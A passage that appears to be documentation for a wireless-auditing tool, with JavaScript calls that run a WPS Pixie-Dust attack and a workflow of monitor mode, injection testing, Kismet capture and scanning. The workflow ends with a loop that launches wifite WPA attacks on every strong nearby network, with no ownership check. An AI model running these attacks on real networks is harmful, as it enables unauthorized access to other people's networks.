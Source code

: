 ### WPS Attacks
```javascript
// WPS PIN attack with Pixie-Dust
await wifite_wps_attack({
  interface: "wlan0",
  bssid: "AA:BB:CC:DD:EE:FF",
  timeout: 600,
  pixieDust: true  // Use faster Pixie-Dust attack
});
```

## Advanced Scenarios

### Complete Workflow Example
```javascript
// 1. Enable monitor mode
await aircrack_monitor_mode({
  interface: "wlan0",
  enable: true
});

// 2. Test injection capability
const injection = await aircrack_test_injection({
  interface: "wlan0mon"
});

if (!injection.success) {
  console.log("Injection not supported on this adapter!");
  return;
}

// 3. Start Kismet for comprehensive monitoring
await kismet_start_server({
  interface: "wlan0mon",
  port: 2501
});

// 4. Perform network discovery
const networks = await aircrack_scan_networks({
  interface: "wlan0mon",
  timeout: 60
});

// 5. Export Kismet data for analysis
await kismet_export_data({
  outputFile: "/tmp/network-survey.json",
  format: "json"
});

// 6. Run automated audit on interesting targets
const strongNetworks = networks.networks.filter(n => n.power > -60);
for (const network of strongNetworks) {
  await wifite_target_network({
    interface: "wlan0mon",
    bssid: network.bssid,
    attackMode: "wpa",
    timeout: 180
  });
}
```
